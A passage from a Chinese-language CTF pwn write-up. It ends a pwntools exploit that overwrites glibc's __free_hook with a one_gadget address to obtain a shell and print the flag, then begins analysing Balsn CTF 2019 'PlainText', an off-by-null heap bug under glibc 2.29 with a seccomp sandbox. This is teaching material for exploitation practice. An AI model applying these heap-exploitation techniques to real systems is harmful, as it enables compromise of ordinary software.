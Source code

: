 ```
        creat(sh,0x78,p64(libc.symbols['__free_hook']))
        creat(sh,0x78,'Chunk_1')
        creat(sh,0x78,p64(libc.address + 0x4f322))
        delete(sh,3)
        flag=get_flag(sh)
        sh.close()
        return flag
    except Exception as e:
        traceback.print_exc()
        sh.close()
        return 'ERROR : Runtime error!'

if __name__ == "__main__":
    sh = get_sh()
    flag = Attack(sh=sh)
    log.success('The flag is ' + re.search(r'flag`{`.+`}`',flag).group())
```



## 0x05 以 Balsn CTF 2019 pwn PlainText 为例

### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E4%BF%A1%E6%81%AF"></a>题目信息

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-10-121454.png)

保护全开，64位程序，Glibc-2.29

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-10-122804.png)

存在沙箱，可用的系统调用受到了限制。

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>漏洞分析

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-06-10-121830.png)

创建新`Chunk`时，存在`Off-by-null`。

### <a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用

#### <a class="reference-link" name="%E6%B8%85%E7%90%86bin"></a>清理bin

我们在启动程序后查看程序的bin空间，发现里面十分的凌乱

